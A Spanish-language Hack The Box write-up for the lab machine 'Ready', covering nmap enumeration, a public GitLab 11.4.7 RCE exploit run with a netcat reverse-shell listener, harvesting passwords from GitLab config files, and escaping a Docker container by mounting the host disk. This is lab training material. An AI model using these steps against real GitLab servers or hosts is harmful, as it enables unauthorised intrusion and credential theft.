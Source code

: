```yaml
---
layout: post
title: HTB_Active
date: 2023/07/10
---
```


# Ready {-}

## Introduccion {-}

La maquina del dia se llama Ready.

El replay del live se puede ver aqui

[![S4vitaar Ready maquina](https://img.youtube.com/vi/DRSMsAKuXX0/0.jpg)](https://www.youtube.com/watch?v=DRSMsAKuXX0)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.220
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.220
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.220 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,5080 10.10.10.220 -oN targeted
```


| Puerto | Servicio      | Que se nos occure? | Que falta?           |
| ------ | ------------- | ------------------ | -------------------- |
| 22     | ssh           | Conneccion directa | usuario y contraseña |
| 5080   | http          | Web, Fuzzing       |                      |



### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.220
```

Es un nginx con gitlab y nos reporta un redirect al http://10.10.10.220/users/sign_in 

#### Checkear la web {-}

Si entramos en la url `http://10.10.10.220:5080` nos redirige automaticamente a la pagina de Sign in de gitlab Community edition.
Siendo un gitlab podemos ver el `robots.txt`.

Vemos routas que pueden ser interesantes como

- /api


En el caso de la routa `/api` si tiramos de esta routa con firefox, vemos que necessitamos logearnos para continuar. Pero en ciertos casos,
hay possibilidades de poder, de forma no authenticada, obtener informaciones relevantes.

Si buscamos en google por `gitlab api`, vemos de que manera podemos utilizar la api para recoger informaciones.

```bash
curl -s -X GET "http://10.10.10.220:5080/api/v4/version"
```

Aqui vemos que necessitamos un token y para esto tenemos que crearnos un usuario. Lo hacemos desde la web. Una vez hecho nos podemos loggear
y desde la interface de gitlab, si vamos a Settings, nos podemos crear un token. Lo copiamos y lo añadimos a un header con curl.

```bash
curl -s -X GET "http://10.10.10.220:5080/api/v4/version" -H "PRIVATE-TOKEN: 514gTTxhx3qpsBbJbfz9" | jq
```

Aqui vemos que la version de gitlab es la 11.4.7


## Vulnerability Assessment {-}

### Gitlab {-}

```bash
searchsploit gitlab 11.4.7
```

Aqui vemos exploits que nos permite hacer Remote Code Execution.


## Vuln exploit & Gaining Access {-}

### Ganando accesso con Gitlab {-}

```bash
searchsploit -m 49257
mv 49257.py gitlab_rce.py
vi gitlab_rce.py
```

Mirando el codigo, vemos que este exploit nos permiteria entablar una reverse shell. Modificamos los datos

- url de la maquina victima
- url de la maquina de atacante
- puerto de escucha
- usuario gitlab
- authenticity_token
- cookie de session.

El valor del authenticity token se puede encontrar en el codigo fuente de la pagina de gitlab.
El valor del cookie de session se puede ver en la pagina de gitlab dandole a `Ctrl+Shift+c > Almacenamiento` y podemos ver el `_gitlab_session`

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script con el commando `python3 gitlab_rce.py`


```bash
whoami
#Output
git
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Podemos ir al directorio `/home/dude` y visualizar la flag
## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
id
sudo -l
echo $PATH
cd /
find \-perm -4000 2>/dev/null
hostname -I
hostname
```

Aqui podemos ver que el comando `hostname -I` nos da una ip que no es la ip de la maquina victima. Estamos en un contenedor

#### Escapar del contenedor {-}

```bash
cd /
ls -la
cd /opt
ls -l
```

Vemos un fichero `/root_pass` en la raiz, y en el directorio opt vemos un directorio `backup` y `gitlab`.

```bash
cat /root_pass
#Output
YG65407Bjqvv9A0a8Tm_7w

su root
Password: YG65407Bjqvv9A0a8Tm_7w

su dude
Password: YG65407Bjqvv9A0a8Tm_7w
```

No es una contraseña.

```bash
cd /opt
ls 
cd /backup
ls -l

cat docker-compose.yml
cat gitlab-secrets.json
cat gitlab-secrets.json | grep "pass"
cat gitlab-secrets.json | grep "user"
cat gitlab.rb
cat gitlab.rb | grep "pass"
```

Hay mucha informacion en estos ficheros. El gitlab.rb contiene un password para el servicio smtp.

```bash
su root
Password: wW59U!ZKMbG9+*#h
whoami
#Output
root
```

Emos podido passar al usuario root pero del contenedor. Aqui algo que todavia suena turbio es este fichero `root_pass`.
Buscamos en los ficheros la coincidencias de este fichero

```bash
grep -r -i "root_pass" 2>/dev/null
```

Aqui vemos un `/dev/sda2` que parece montado sobre un **root_pass**

```bash
df -h
fdisk -l
```

Aqui vemos que en `/dev/sda2` hay un linux filesystem de 18G que se monta directamente con `/root_pass`. Vamos a intentar montarlo.

```bash
mkdir /mnt/mounted
mount /dev/sda2 /mnt/mounted
ls -l
cd /root
cat root.txt
```

Ademas podemos connectarnos como root directamente a la maquina victima con ssh porque tenemos accesso a la id_rsa del usuario root de la maquina
victima.
